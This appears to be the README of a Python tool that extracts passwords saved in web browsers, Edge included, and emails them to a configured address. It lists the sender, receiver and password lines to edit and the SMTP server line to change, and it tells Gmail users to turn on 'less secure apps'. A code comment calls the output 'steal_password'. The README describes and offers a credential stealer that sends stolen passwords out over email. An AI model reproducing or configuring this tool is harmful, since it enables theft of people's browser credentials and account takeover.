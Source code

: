# GetsavedPassword
This is A python code to get the passwords saved in any Browser including Edge.
This code collects the password saved in browser and sends back to Any mail Id as you have to give the Id and password in the code.. if you are not a gmail user 
you have to change the smtp port as by the service provider
and dont forget to change https://www.google.com/settings/security/lesssecureapps if you area a gmail user

Change In This Line::::
addr_from = 'sendermailaddress@gmail.com'  # your email to send steal_password


addr_to = 'Reciversmailaddress@gmail.com '  # receive email


password = 'password'  # Your gmail password

please change below line if u are Not a Gmail User:::

server = smtplib.SMTP('smtp.gmail.com', 587)
